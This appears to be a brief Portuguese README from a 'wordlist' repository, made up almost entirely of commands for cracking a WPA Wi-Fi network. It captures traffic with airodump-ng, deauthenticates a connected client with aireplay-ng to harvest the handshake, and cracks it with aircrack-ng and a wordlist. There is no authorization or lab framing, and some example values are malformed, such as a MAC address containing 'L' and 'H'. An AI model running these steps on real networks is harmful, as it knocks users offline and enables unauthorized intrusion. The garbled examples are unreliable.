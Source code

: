# wordlist
airodump-ng --bssid endereço fisico da rede ex:04:8D:38:1A:3F:48 --channel ex:1 --write escrever nome da rede e sua interface ex:wlan0 
apos sera gerado 2 endereço ex:1B:45:47:L5:7H:55 e ex:55:22:33:45:14:88
depois de gerado digite:  aireplay-ng --deauth -a 1B:45:47:L5:7H:55 -c 55:22:33:45:14:88 wlan0mon ate aparecer wpa handshaker
apos 
aircrack-ng /home/william/Downloads/wordlist-master/gerado pelo aireplay-02.cap -w /home/$User/Downloads/wordlist.txt
